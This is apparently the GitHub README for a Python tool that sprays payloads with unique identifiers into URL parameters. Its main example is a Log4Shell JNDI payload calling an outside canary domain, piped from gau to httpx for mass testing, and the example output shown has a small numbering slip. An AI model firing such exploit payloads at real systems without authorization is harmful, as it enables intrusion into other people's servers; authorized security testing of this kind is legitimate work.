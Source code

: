 # Payload Iterator
Parses known URLs via stdin, filters and populates parameter values with payloads using unique identifiers for better tracking. Similar to and inspired by [Tomnomnom](https://github.com/tomnomnom)'s [qsreplace](https://github.com/tomnomnom/qsreplace). I originally created this as a way to more effectively track sprayed Log4J payloads, but this tool could be used in many different scenarios where unique identifiers are required. 

## Usage
```
usage: payload-iterator.py [-h] -p PAYLOAD [-pr PREFIX] [-o OUTPUT] [--preserve] [-s]

Populates payloads with unique identifiers into URL GET parameters.

optional arguments:
  -h, --help            show this help message and exit
  -p PAYLOAD, --payload PAYLOAD
                        Original payload to manipulate, place <id> in the position you wish to be replaced, it will be replaced with 1 -> n
  -pr PREFIX, --prefix PREFIX
                        Prefix for the payload identifier, e.g. pay<id> will result in pay1 -> pay99999
  -o OUTPUT, --output OUTPUT
                        Output file to write to
  --preserve            Preseve other URL values, limiting to one payload per URL, keeping all other values the same as entered
  -s, --silent          Do not print to stdout
  ```
  
## Example Log4shell use case
```
getallurls -subs $target | python3 payload-iterator.py -o $target-urls.txt --payload '${jndi:ldap://<id>.your.canary.domain/test}' | httpx
```
This will populate all of the parameters in the URLs supplied by `gau` with the payload and iterator. 

E.g. `http://example.com/?param1=blah&param2=blah&param3=blah` -> `http://example.com/?param1=${jndi:ldap://p2.your.canary.domain/test}&param2=${jndi:ldap://p2.your.canary.domain/test}&param3=${jndi:ldap://p3.your.canary.domain/test}`

## To-do / Improvements
None at the moment, if you have any suggestions or improvements to be made feel free to create an issue or submit a PR. 
